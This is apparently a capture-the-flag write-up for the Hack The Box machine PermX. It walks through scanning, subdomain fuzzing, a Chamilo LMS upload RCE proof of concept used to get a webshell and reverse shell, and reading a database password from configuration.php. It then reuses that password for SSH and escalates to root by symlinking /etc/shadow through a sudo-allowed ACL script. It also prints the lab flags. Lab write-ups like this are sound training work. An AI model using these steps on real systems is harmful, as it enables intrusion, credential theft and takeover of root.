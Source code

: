```yaml
---
title: "PermX from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# PermX from HTB
[page](https://app.hackthebox.com/machines/PermX)
First use `nmap`on this:
```
$ nmap -sCV --min-rate 4000 10.10.11.23
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-02 18:34 +04
Nmap scan report for 10.10.11.23
Host is up (0.20s latency).
Not shown: 919 filtered tcp ports (no-response), 79 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Then try to access to website with `IP` and you will get the sites name, then add it to `/etc/hosts`:
```
10.10.11.23 permx.htb
```
Then for directory discovery use `gobuster`but you will not need that. You will need ffuf:
```
 ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -u http://10.10.11.23/ -H "Host: FUZZ.permx.htb" -mc 200 -s
```
This will display this two subdomains:
```
www
lms
```
You are currently in `www`so you will need to head to `lms`subdomain. To do that you will need to first add that to `/etc/hosts`:
```
10.10.11.23 lms.permx.htb
```
After checking out the site with `whatweb`command you can find that site runs on `chamilo 1`:
```
$ whatweb http://lms.permx.htb
http://lms.permx.htb [200 OK] Apache[2.4.52], Bootstrap, Chamilo[1], Cookies[GotoCourse,ch_sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[GotoCourse,ch_sid], IP[10.10.11.23], JQuery, MetaGenerator[Chamilo 1], Modernizr, PasswordField[password], PoweredBy[Chamilo], Script, Title[PermX - LMS - Portal], X-Powered-By[Chamilo 1], X-UA-Compatible[IE=edge]
```
After searching `chamilo 1`exploits i got to this `github` repository and downloaded it:
```
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
pip install -r requirements.txt
python3 main.py -u http://lms.permx.htb/ -a scan
python3 main.py -u http://lms.permx.htb/ -a webshell
python3 main.py -u http://lms.permx.htb/ -a revshell
```
Before running the last command be sure to run 
```
$ nc -nlvp 1234
```
and you will get the connection.
You will need to find password to connect to `ssh`and to find that i searched for `configuration.php`files with this command:
```
/var/www/chamilo $ find . -type f -name "configuration.php"
```
You will get two files:
```
./www/chamilo/app/config/configuration.php
./www/chamilo/plugin/sepe/src/configuration.php
```
The password is hidden in `./www/chamilo/app/config/configuration.php`so `cat`it and find the password:
```
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```
**db_password** ---- 03F6lY3uXAP2bkW8
Then search for this: 
```
www-data@permx:/var$ cat /etc/passwd | grep -i sh$                              
cat /etc/passwd | grep -i sh$
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```
So we have to connect to `ssh`with this name and passowrd:
```
$ ssh mtz@10.10.11.23
mtz@10.10.11.23's password: 03F6lY3uXAP2bkW8
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Aug  2 03:16:24 PM UTC 2024

  System load:           0.22
  Usage of /:            59.0% of 7.19GB
  Memory usage:          10%
  Swap usage:            0%
  Processes:             249
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.23
  IPv6 address for eth0: dead:beef::250:56ff:feb0:96f


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jul  1 13:09:13 2024 from 10.10.14.40
mtz@permx:~$
```
You can `cat` the `user.txt`:
```
mtz@permx:~$ cat user.txt
1af9641f8b71a4d3898cc89fd44a0432
```
after that run `sudo -l`to learn what you can run with `sudo`permissions:
```
Matching Defaults entries for mtz on permx:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
   (ALL : ALL) NOPASSWD: /opt/acl.sh
```
Then create symlink to `/etc/shadows`in `/home/mtz/`directory and name whatever you want:
```
$ openssl passwd -6 -salt uwu Password123$
$6$uwu$GkLbKwoRGN66KFTWszadPgA0dG0hymftio/bqBSxX472cgLFwInxremvld1RHRRFup./tjJho66wlmVBSIf/u0
mtz@permx:~$ ln -f -s /etc/shadow ./giuna
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/giuna
mtz@permx:~$ nano giuna
```
While in `nano text editor`you can either change the `root`password or add a new user with root capabilities. For me i changed the `root`password.
```
$ su -
Password: 
root@permx:~# ls
backup  reset.sh  root.txt
root@permx:~# cat root.txt
83a46ac2b9985c0e7029e97288cf01d2
```
And there is the `rooot.txt`: 
**83a46ac2b9985c0e7029e97288cf01d2**

